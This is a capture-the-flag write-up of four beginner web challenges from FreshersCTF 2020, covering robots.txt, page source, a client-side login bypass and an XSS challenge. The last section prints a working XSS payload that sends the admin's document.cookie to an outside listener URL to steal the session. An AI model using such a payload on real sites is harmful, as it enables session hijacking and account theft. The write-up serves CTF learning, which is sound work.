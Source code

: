 ```yaml
---
layout: post
title:  "FreshersCTF 2020 Web Challenges Writeups"
description: Writeup for the challenges in the Web category for the FreshersCTF 2020 ran by ENUSEC. 
date:   2020-12-27 20:27:00 +0000
categories: CTF WebApp
---
```

Writeup for the challenges in the Web category for the FreshersCTF 2020 ran by ENUSEC.

# Robots go Beep	

## Problem

We are given a website with a big robot in it and nothing else. Well, the hint is pretty obvious, isn't it?

If this isn't obvious for you because you are barely starting, wikipedia says [robots.txt, is a standard used by websites to communicate with web crawlers and other web robots](https://en.wikipedia.org/wiki/Robots_exclusion_standard) 

![1](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/robots_go_beep_1.png)

## Solution

We only need to check /robots.txt to follow the clue.

![2](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/robots_go_beep_2.png)

Another hint, this time about the sitemap! We know what to do, don't we? [Wiki site about sitemaps](https://en.wikipedia.org/wiki/Site_map)

![3](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/robots_go_beep_3.png)

# Saucy

## Problem

We are given a website containing a yummy tomato sauce picture. I personally went mad overcomplicating this one trying to steganography the hell out of the picture without any result.

## Solution

Then I realised `saucy` was a hint towards `source` (code), so I double-checked and there it was:

![1](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/saucy1.png)

That easy, just go to that folder. Note to future-self: try and get the low hanging fruit first, you *dummy*!

![2](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/saucy2.png)

# Not Java

## Problem

```
Ooops.

Looks like the developers of this Authentication system left a huge gigantic gaping hole in the application.

Can you exploit their incompetence?
```

We are presented a dull login page. 

Exactly as it happened to me with Saucy, happened to me with "Not Java". 

I realised the solution at the time the CTF was about to finish. I guess some pressure helps me thinking!

## Solution

If we stop trying to bruteforce the login form for a minute and check the script running in the page, we find it's calling a function to log us in. That function is checking parameters and then calling another function: `logIn("")`. The only thing we need to do is calling it in the devtools console and we'll get the door wide open!.

![1](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/not_java_1.png)

![2](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/not_java_2.png)

We get redirected to our flag straight away:

![3](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/not_java_3.png)

# KFF

## Problem

```
This encoding application seems to have a massive oversight.

Can you exploit it and steal the Admins session?
```

We get a big lock image with two prompts that encode a message, one for viewing ourselves our encoded message and another one to send the encryped message to the admin. 
Smells like [XSS](https://owasp.org/www-community/attacks/xss/), doesn't it?

## Solution

Let's try to encode some messages. If we say `hello`, we receive `ifmmp`. It looks like we have a [ROT13](https://en.wikipedia.org/wiki/ROT13) variant cipher instead of an encoding, right?. 

![1](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/kff_1.png)  

However, if we try with symbols, they also rotate, therefore we are talking about a variant of [ROT47](https://en.wikipedia.org/wiki/ROT13#Variants) encryption with a rotation we don't know yet.

![2](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/kff_2.png)

We can use [Cyberchef](https://gchq.github.io/CyberChef/)'s ROT47 tool to play around with the ciphertext until we decrypt it:

![3](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/kff_6.png)

We find the ciphertext being decrypted as ROT1 but what we actually need is the oposite to correctly encrypt our payload:

![4](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/kff_7.png)

We finally discover the encryption is ROT-1 (ROT47(-48)). Let's try then to get some XSS working!

![5](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/kff_4.png)

... And we were right!!!

Now that we finally have our PoC working, we need to send the payload to the admin in order to steal their session cookie. We can do this with the following payload, where `document.location=<our website>?cookie=` is the listening server we control with a cookie request URL encoded and `document.cookie` is the cookie we want to steal from the admin:  

```
<script>document.location="https://enx0ouxtov1d1z8.m.pipedream.net?cookie="+document.cookie;</script>
```
![6](https://raw.githubusercontent.com/0x5ubt13/Write-Ups/master/FreshersCTF2020%40ENUSEC/images/kff_5.png)

`Author: @0x5ubt13`
